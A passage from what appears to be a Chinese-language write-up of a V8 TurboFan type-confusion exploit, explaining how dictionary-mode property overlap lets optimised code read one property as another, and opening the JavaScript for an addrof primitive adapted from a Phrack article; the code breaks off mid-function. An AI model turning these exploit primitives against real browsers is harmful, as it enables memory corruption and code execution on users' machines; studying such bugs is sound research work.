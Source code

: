 这个DictionaryProperties 下的properties数组应该是类似hashtable的结构，还是3个一组（key，value，hash)，且每次运行时这个properties是不一样的，也就是每个组间的顺序可能会变化，相对应的bucket也会变化

但是只要我们定义的属性有很多（以下例子property_count为30），就能出现以下情况：

![](./img/layout1.png)

注意看打箭头的在数组中偏移是一样的，这个代表着在优化后turbofan以为在拿o.p6其实拿到的是o.p22，但是每一次执行这个匹配的位置是会变动的，所以我们需要动态的确认这个匹配的idx。

### addrof

以下代码来自 http://phrack.org/issues/70/9.html ，改了一点点

首先需要一个找到匹配idx的函数：

```javascript
const NUM_PROPERTIES = 32;
const MAX_ITERATIONS = 60000;

// Make an object with one inline and numerous out-of-line properties.
function makeObj(propertyValues) {
    let o = {inline: 0x1337};
    for (let i = 0; i < NUM_PROPERTIES; i++) {
        Object.defineProperty(o, 'p' + i, {
            writable: true,
            value: propertyValues[i]
        });
    }
    return o;
}

// Find a pair (p1, p2) of properties such that p1 is stored at the same
// offset in the FixedArray as p2 is in the NameDictionary.
let p1, p2;
function findOverlappingProperties() {
    let propertyNames = [];
    for (let i = 0; i < NUM_PROPERTIES; i++) {
        propertyNames[i] = 'p' + i;
    }
    eval(`
        function hax(o) {
            o.inline;
            this.Object.create(o);
```